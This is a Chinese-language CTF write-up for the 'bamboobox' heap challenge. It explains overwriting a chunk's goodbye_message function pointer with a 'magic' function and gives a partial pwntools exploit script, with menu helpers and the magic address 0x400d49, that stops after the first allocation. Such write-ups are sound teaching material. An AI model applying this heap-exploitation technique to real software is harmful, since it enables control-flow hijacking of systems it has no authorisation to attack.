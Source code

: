 这题程序一开建了一个含有程序指针的chunk，并且程序结束会调用这个chunk中的程序指针。

```
struct box{
	void (*hello_message)();
	void (*goodbye_message)();
};

...
bamboo = malloc(sizeof(struct box));
bamboo->hello_message = hello_message;
bamboo->goodbye_message = goodbye_message ;
...

...
case 5:
	bamboo->goodbye_message();
	exit(0);
	break;
...

```

我们的目的就是把它改写成我们的magic函数。

exp:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

r = process('./bamboobox')

def additem(length,name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)

def modify(idx,length,name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)

def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))

def show():
    r.recvuntil(":")
    r.sendline("1")

magic = 0x400d49
additem(0x100,"ddaa")
```